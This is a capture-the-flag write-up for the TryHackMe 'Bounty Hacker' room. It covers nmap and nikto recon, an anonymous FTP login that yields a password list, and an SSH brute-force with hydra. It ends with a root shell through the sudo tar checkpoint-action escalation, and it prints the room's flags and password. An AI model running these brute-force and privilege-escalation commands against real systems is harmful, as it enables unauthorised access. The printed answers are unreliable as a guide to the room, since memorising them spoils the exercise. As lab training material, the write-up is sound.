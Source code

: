 # Bounty Hacker @TryHackMe

Difficulty: EASY

Keywords and tools: nmap, dirb, nikto, ftp, google, ssh, bruteforce

Questions:

1.Who wrote the task list? 

2.What service can you bruteforce with the text file found?

3.What is the users password? 

4.user.txt

5.root.txt

### Ping the target to see it's alive (target IP will be given after you've joined the room)
```
ping 10.10.180.213
PING 10.10.180.213 (10.10.180.213) 56(84) bytes of data.
64 bytes from 10.10.180.213: icmp_seq=1 ttl=63 time=50.4 ms
64 bytes from 10.10.180.213: icmp_seq=2 ttl=63 time=53.2 ms
```

### nmap scan
``` 
nmap -sV -n -v -Pn -p- -T4 -A 10.10.180.213
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.0.186
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```
Found open ports 21, 22 and 80. So FTP, SSH and web application.

Note the "Anonymous FTP login allowed"

### Lets run dirb and nikto scans
```
dirb http://10.10.180.213
---- Scanning URL: http://10.10.180.213/ ----
==> DIRECTORY: http://10.10.180.213/images/                                                                      
+ http://10.10.180.213/index.html (CODE:200|SIZE:969)                                                            
+ http://10.10.180.213/server-status (CODE:403|SIZE:278)       
```


```
nikto -h 10.10.180.213
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.180.213
+ Target Hostname:    10.10.180.213
+ Target Port:        80
+ Start Time:         2021-01-22 03:51:05 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Server may leak inodes via ETags, header found with file /, inode: 3c9, size: 5a789fef9846b, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7889 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           2021-01-22 03:58:59 (GMT-5) (474 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Nothing interesting found with dirb or nikto. Opening site with browser, nothing interesting.


### Lets checkout the FTP
```
ftp 10.10.180.213                  
Connected to 10.10.180.213.
220 (vsFTPd 3.0.3)
Name (10.10.180.213:kali): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```
Lets read locks.txt and task.txt

```
1.) Protect Vicious. 
2.) Plan for Red Eye pickup on the moon.

-lin

-------------------------------------------

rEddrAGON 
ReDdr4g0nSynd!cat3 
Dr@gOn$yn9icat3 
R3DDr46ONSYndIC@Te 
ReddRA60N 
R3dDrag0nSynd1c4te 
dRa6oN5YNDiCATE 
ReDDR4g0n5ynDIc4te 
R3Dr4gOn2044 
RedDr4gonSynd1cat3 
R3dDRaG0Nsynd1c@T3 
Synd1c4teDr@g0n 
reddRAg0N 
REddRaG0N5yNdIc48e 
Dra6oN$yndIC@t3 
4L1mi6H71StHeB357 
rEDdragOn$ynd1c473 
DrAgoN5ynD1cATE 
ReDdrag0n$ynd1cate 
Dr@gOn$yND1C4Te 
RedDr@gonSyn9ic47e 
REd$yNdIc47e 
dr@goN5YNd1c@73 
```
Passwords apparently, but we found answer to our first question.
Who wrote the task list? lin

### Lets try bruteforcing SSH with the passwordlist and username lin.
```
hydra 10.10.180.213 -l lin -P locks.txt ssh 

ydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-22 04:07:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.180.213:22/
[22][ssh] host: 10.10.180.213   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
```
Found login: lin   password: RedDr4gonSynd1cat3.

Also got the answer for the second and third questions: 

What service can you bruteforce with the text file found? SSH

What is the users password? RedDr4gonSynd1cat3


### Lets SSH with the found credentials.
```
ssh lin@10.10.180.213 

lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
```
Here's our answer to fourth question. user.txt: 

Lets see list of allowed commands.
```
lin@bountyhacker:/$ sudo -l
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
We can run tar as root. Quick google "root tar sudo exploit" or similiar should point you to https://gtfobins.github.io/gtfobins/tar/.

```
lin@bountyhacker:/$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# 
# whoami
root
# locate root.txt
/root/root.txt
# cat /root/root.txt
THM{80UN7Y_h4cK3r}
```
And here we have our final answer. THM{80UN7Y_h4cK3r}




